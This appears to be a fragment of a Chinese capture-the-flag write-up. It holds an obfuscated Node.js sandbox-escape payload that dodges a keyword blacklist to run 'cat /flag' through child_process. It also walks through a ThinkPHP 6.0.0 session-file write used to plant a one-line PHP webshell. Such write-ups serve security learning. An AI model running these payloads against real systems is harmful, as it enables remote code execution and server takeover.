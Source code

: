 
绕过：`['process', 'exec', 'constructor', 'prototype', 'Function', '"', ''']`      

	?code=(function (){
	    TypeError[`${`${`prototyp`}e`}`][`${`${`get_proces`}s`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return proces`}s`}`)();
	    try{
	        Object.preventExtensions(Buffer.from(``)).a = 1;
	    }catch(e){
	        return e[`${`${`get_proces`}s`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
	    }
	})()     


### EasyThinking
看到thinking应该想到应该是thinkphp吧    
输入个不存在的路径     
报错：       



![01.png](https://img12.360buyimg.com/ddimg/jfs/t1/179705/11/761/21532/6083de2cEcdedf453/71fb3eb71da3182c.png)     




[Think PHP V6.0.0任意文件操作漏洞](https://paper.seebug.org/1114/)       



![02.png](https://img12.360buyimg.com/ddimg/jfs/t1/168527/22/21222/15225/6083e0edEd9a623ed/f948321a4e4bf6fb.png)    




32位的PHPSESSID改成一个32位的PHP文件名  
    


![03.png](https://img14.360buyimg.com/ddimg/jfs/t1/182857/21/741/14442/6083e0edEe42ae3cc/2c0d5a4babe2b331.png)      


搜索里面填入一句话      



![04.png](https://img13.360buyimg.com/ddimg/jfs/t1/184862/17/733/11665/6083e167E7e9a71d3/d847018ea02a13d6.png)       



就会被存放到之前写的文件里面  
访问`http://93a0778c-632e-4f47-9ba1-8d8017ef0078.node3.buuoj.cn/runtime/session/sess_1234567890123456789012345678.php`     
最后的文件名是`sess_`+刚才的32位    



![05.png](https://img12.360buyimg.com/ddimg/jfs/t1/173808/39/6300/107394/6083e23eEc8cf917d/e8254e21441627f8.png)     


 

还要绕过`disable_function`   
和之前那道题一样        
